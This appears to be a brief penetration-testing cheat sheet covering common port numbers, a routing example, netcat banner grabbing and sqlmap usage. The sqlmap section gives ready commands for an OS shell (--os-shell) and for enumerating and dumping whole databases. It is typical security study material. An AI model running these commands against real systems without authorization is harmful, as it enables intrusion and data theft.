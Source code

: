 
COMMON PORTS
............

25 - SMTP
22 - SSH
110 - POP3
143 - IMAP
80 - HTTP
443 - HTTPS
8080 - HTTP Proxy
137, 138, 139 - NETBIOS
115 - SFTP
23 - Telnet
21 - FTP
3389 - RDP
3306 - MySQL
1433 - MS SQL Server
445 - SMB
123 - NTP
179 - BGP
69 - TFTP
88 - Kerberos
102 - MS Exchange


HOW TO SET ROUTE
.................

ip route add <Network To Which We Need Access> via <GATEWAY>
    ejemplo:
        ip route add 192.168.1.0/24 via 10.10.15.1


BANNER GRABING
...............

nc -nv  <IP> <port>


SQLMAP
.......

sqlmap -u http://[IP] -p parameter

sqlmap -u http://[IP] –os-shell

sqlmap -u http://[IP] –dump

sqlmap -u http://[IP]/?id=1 --dbs

sqlmap -u http://[IP]/?id=1 -D database_name --tables

sqlmap -u http://[IP]/?id=1 -D database_name -T table_name --columns

sqlmap -u http://[IP]/?id=1 -D database_name -T table_name --dump-all

More....https://hackersonlineclub.com/sql-injection-cheatsheet/

